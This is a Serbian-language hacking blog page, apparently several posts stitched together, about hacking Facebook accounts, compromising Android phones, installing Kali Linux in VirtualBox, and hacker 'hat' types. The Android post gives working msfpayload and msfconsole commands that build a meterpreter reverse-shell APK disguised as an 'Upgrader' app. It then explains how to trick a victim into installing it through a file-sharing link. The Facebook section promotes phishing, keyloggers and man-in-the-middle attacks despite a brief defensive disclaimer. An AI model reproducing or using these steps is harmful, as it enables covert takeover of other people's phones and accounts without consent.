

Kako hakovati FaceBook (FejsBuk) nalog 5 razlicitih nacina!
Pomocu ovih 5 nacina naucicemo kako hakovati FaceBook (FejsBuk) naloge:
PHISHING je i dalje najpopularniji nacin hakovanja FejsBuka (facebook). Postoje mnoge razlicite tehnike kako se ovaj napad izvodi. Ovde ce biti pokazana jedna vrsta phishing napada.
Naucicemo da hakujemo pomocu Keylogger-a. (program koji belezi sta god se ukuca na tastaturi)
Pomocu sacuvanih sifri u browser-u koje mozete da vratite pomocu ovog alata.
Pomocu mobilnog telefona od mete. (veci broj korisnika je hakovan preko mobilnog telefona)
Pomocu Man In the Middle napada. (ovo je napad gde se postavite izmedju mete i njegove internet konekcije)
Svaki od ovih nacina je pojedinacno objasnjen na celom postu! Ovaj post je ovde da bi vi mogli da naucite kako da se odbranite od hakera. Nemojte mi slati mailove za ilegalne radnje zato sto ih ne podrzavam!
Kako hakovati android mobilni telefon?
Ako niste procitali Kako instalirati Kali Linux u VirtualBox-u na Windows-u? onda to mozete uraditi sada ako hocete da nastavite.
Prvo sto treba da uradite jeste da otvorite terminal i napravite .apk aplikaciju to cemo uraditi tako sto ukucamo u terminalu ovu komandu: "msfpayload android/meterpreter/reverse_tcp LHOST=192.168.0.4 R > /root/Upgrader.apk" zamenite LHOST sa vasom ip adresom. (mozete ovo uraditi preko WAN tako sto uneste externu IP adresu ali morate da portforward, za vise pitanja u vezi portforward mozete da mi posaljete mail i pomocicu vam cim budem mogao.)
Sledeci korak je da otvorite jos jedan terminal i pokrenete metasploit u njemu tako sto cete ukucati: msfconsole
Morate pokrenuti listener u konsoli tako sto uneste sledece: use exploit/multi/handler
Sledece sto morate da uneste da bi napravili listener: "set payload android/meterpreter/reverse_tcp", izabrali ste payload sledece sto morate da uneste jeste vas LHOST: "set LHOST 192.168.0.4" (mozete uneti vasu lokalnu ip adresu iako radite ovo preko WAN-a)
Kada ste uneli sve neophodne podatke ukucajte: "exploit" da pokrenete listener. Sledece sto trebate da uradite jeste da prebacite aplikaciju koju ste napravili na mobilni telefon tako sto cete je upload-ovati iz vaseg root folder-a na neki sharing website npr: dropbox ili tinyupload
Onda posaljite link koji ste dobili na mobilni koji hocete da hackujete (ovo ce raditi samo u lokalnoj mrezi osim ako ste koristi WAN metodu u kom slucaju ce raditi bilo gde)
Otvorite link koji ste poslali i skinite aplikaciju pa je otvorite i instalirajte (morate odobriti opciju za instalacije aplikacija od nepoznatih izvora pre toga ako vec nije odobrena) posle ovoga bi trebalo da dobijete otvorenu konekciju u drugom terminalu u kom ste podesili i pokrenuli listener.
Etoga uspesno ste hackovali android mobilni telefon. Posle cega mozete da koriste postmodule za dalje hackovanje. Za jos tutorijala posetite blog ponovo!
Kako instalirati Kali Linux u VirtualBox-u na Windows-u?
Stvari koje su vam potrebne: VirtualBox i Kali Linux instalacija za virtualbox.
Morate skinuti VBox verziju Kali operativnog sistema (Kali Linux 64 bit Vbox ili Kali Linux 32 bit Vbox)
Jedna od prednosti je kada instalirate Kali Linux u VirtualBox-u jeste to sto ako volite da installirate stvari od nepoznatih izvora ili da menjate kod sistema mozete obrisati i ponovo podici ceo sistem za manje od 5minuta bez ikakvih promena vasem primarnom operativnom sistemu.
Jedna od mana je to sto gubite na brzini vaseg racunara.
Ako vam je potrebna pomoc pri instaliranju Virtualbox-a mozete otici na njihov sajt i procitati usermanual
Kada ste skinuli sve i instalirali VirtualBox mozete ga pokrenuti pa onda klikom na "file" pa na "Import Appliance"

Onda kliknete na ikonu folder-a i izaberete Kali Vbox .ova file koji ste skinuli
Zatim kliknete na "Import" i sacekate par minuta
Posle toga mozete pokrenuti virtualnu masinu koju ste napravili klikom na start
Kada vas pita za login detalje unesite: username: "root" i password: "toor" i kliknite na signin
posle toga bi trebalo da vidite kali homescreen koji izgleda ovako
Cestitam uspesno ste instalirali i pokrenuli Kali Linux opertaivni sistem u VirutalBox-u na Windows-u, sada ste spremni da pratite svaki od sledecih tutorijala koji ce izlaziti stalno na ovom blogu!
Razlicite vrste hakera: White, Gray i Black Hat.
Black Hat hakeri su hakeri o kojima ste vec culi u novinama mozda cak i na televiziji. Black Hat hakeri obicno krse zakone i ilegalno hakuju kompjutere (sisteme) za sopstvenu dobit ili jednostavno da bi nekome naneli stetu. (Npr. kradja kreditnih kartica, prikupljanje licnih informacija za prodaju, DDOS napadi... )
White Hat hakeri su totalna suprotnost Black Hat hakerima oni su hakeri koje unajmite kada hocete da vidite dal vas je moguce hakovati i kako da se osigurate od hakera. (uvek rade legalne stavri) Naravno oni kao i White Hat hakeri su experti za hakovanje kompjutera. Oni hakuju kompjutere (sisteme) za dobre i legalne svrhe kako bi pomogli ljudima.
Gray Hat hakeri spadaju u blend od Black Hat i White Hat hakera. Oni su obicno hakeri koji bez dozvole hakuju kompjutere (sisteme) i onda pokazu kako su to uradili, kako bi ga ojacali i spreceli da se to ponovi. (ovo je i dalje ilegalno)